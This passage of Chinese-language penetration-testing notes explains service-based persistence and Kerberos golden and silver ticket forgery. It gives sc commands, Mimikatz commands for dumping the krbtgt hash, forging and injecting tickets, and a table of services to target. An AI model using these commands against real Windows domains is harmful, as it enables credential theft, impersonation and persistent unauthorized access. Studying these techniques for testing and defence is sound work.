     自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务。

    ```cmd
        sc create test binpath= c:\666.exe    #创建服务
        sc config test start= auto    #设置服务为自动启动
        net start test                #启动服务
    ```

## 9. 黄金票据

    在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个 Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

    查看krbtgt ntlm hash：
    lsadump::dcsync /domain:<域名> /user:krbtgt

    清空票据信息：
    kerberos::purge

    生成票据：
    kerberos::golden /admin:<用户名> /domain:<域名> /sid:<域SID> /krbtgt:<ntlm hash> /ticket:<票据名>

    导入票据：
    kerberos::ptt Administrator.kiribi

## 10.白银票据

    黄金票据伪造的TGT,那么白银票据伪造的是ST。在Kerberos认证的第三步，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,伪造的门票只对部分服务起作用。
    白银票据常用服务：
    |Service Type                   |Service Silver Tickets             |
    |-------------------------------|-----------------------------------|
    | WMI | HOST RPCSS |
    | PowerShell Remoting | HOST HTTP |
    | WinRM | HOST HTTP |
    | Scheduled Tasks | HOST |
    | Windows File Share (CIFS) | CIFS |
    | LDAP operations includingMimikatz DCSync | LDAP |
    | Windows Remote Server Administration Tools | RPCSS LDAP CIFS |

    - 伪造CIFS权限
    CIFS用于主机之间的文件共享

    生成票据：
    kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt
